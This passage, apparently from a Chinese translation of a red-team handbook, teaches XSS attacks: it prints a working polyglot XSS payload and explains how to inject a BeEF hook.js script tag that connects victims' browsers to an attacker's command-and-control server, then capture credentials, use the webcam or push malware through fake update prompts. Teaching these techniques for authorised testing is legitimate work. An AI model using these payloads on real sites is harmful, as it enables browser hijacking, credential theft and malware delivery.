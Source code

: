 最后一种类型的 payload 称为 [Polyglot](http://bit.ly/2GXxqxH)。Polyglot payload 采用许多不同类型的 payload 和混淆技术，并将它们编译成一次攻击。这适用于想使用自动脚本查找 XSS、时间有限的的漏洞赏金项目，或者仅仅想要快速发现输入验证存在哪些问题等情况。

因此，我们可以像（ http://bit.ly/2GXxqxH ）这样构建一个 Polyglot，而不是普通的 `<script>alert(1)</script>`：
```
/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

如果你看一下上面的 payload,此攻击试图不使用尖括号，点和斜线的传统攻击代码；执行 onclick XSS；关闭多个标签；最后尝试一个 onload XSS。这些类型的攻击使 Polyglots 在识别 XSS 方面非常有效和高效。你可以在此处阅读有关这些 Polyglot XSS 的更多信息：https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot 。

如果你想测试和使用不同的 polyglots，可以从易受攻击的 XSS 页面（ http://chat:3000/xss ）或整个聊天应用程序开始。

**BeEF**

浏览器漏洞利用框架（ http://beefproject.com/ ）或简称 BeEF 将 XSS 攻击提升到另一个层次。此工具将 JavaScript payload 注入受害者的浏览器，该浏览器会感染用户的系统。这会在受害者的浏览器上创建一个 C2通道，用于 JavaScript 后期利用。

对红队来说，BeEF 是一个很好的工具，可用于入侵活动，跟踪用户，捕获凭据，执行点击劫持，使用 Tabna 进行攻击等等。如果不在攻击期间使用，BeEF 也是一个很好的工具，可以展示 XSS 漏洞的强大功能。这也有助于更复杂的攻击，我们将在后面的 Blind XSS 小节下讨论。

BeEF 分为两部分：一部分是服务器，另一部分是攻击 payload。要启动服务器：

在你的攻击者 Kali 主机上启动 BeEF
* 打开终端
    * beef-xss
* 使用 beef：beef
* 查看 http://127.0.0.1:3000/hook.js
* 完整 payload 文件：
    * `<script src="http://<Your IP>:3000/hook.js"></script>`


查看位于 http://127.0.0.1:3000/hook.js 上的 hook.js 文件，你应该会看到类似于长混淆的 JavaScript 文件的内容。这是连接受害者返回命令和控制服务器的客户端 payload 。

一旦在目标应用程序上识别出 XSS，而不是原始的 alert(1) 样式的 payload，就可以修改 `<script src ="http://<YourIP>:3000/hook.js"></script>` payload 来利用此漏洞。一旦你的受害者陷入此 XSS 陷阱，将导致他们的浏览器连接回你这边并成为你的僵尸网络的一部分。

BeEF 支持哪些类型的后渗透攻击？一旦你的受害者受到你的控制，你就可以做任何 JavaScript 可以做的事情。你可以通过 HTLM5打开相机并拍摄受害者的照片，你可以在屏幕上显示覆盖图以捕获凭据，也可以将其重定向到恶意网站以执行恶意软件。

以下是 BeEF 从 XSS 攻击中引发大量问题的快速演示：

首先，确保你的 BeEF 服务器在攻击者计算机上运行。在我们的易受攻击的聊天支持系统的应用程序中，你可以访问 http://chat:3000/xss 并在练习2的字段中输入你的 payload：
* `<script src="http://127.0.0.1:3000/hook.js"></script>`

一旦你的受害者连接到你的僵尸网络，你就可以完全控制他们的浏览器。你可以根据设备，浏览器和目标机器启用的功能进行各种攻击。通过社会工程学演示 XSS 影响力的一个好方法是通过 Flash 更新提示将恶意软件推送到他们的计算机。

![](img/3-8.png)
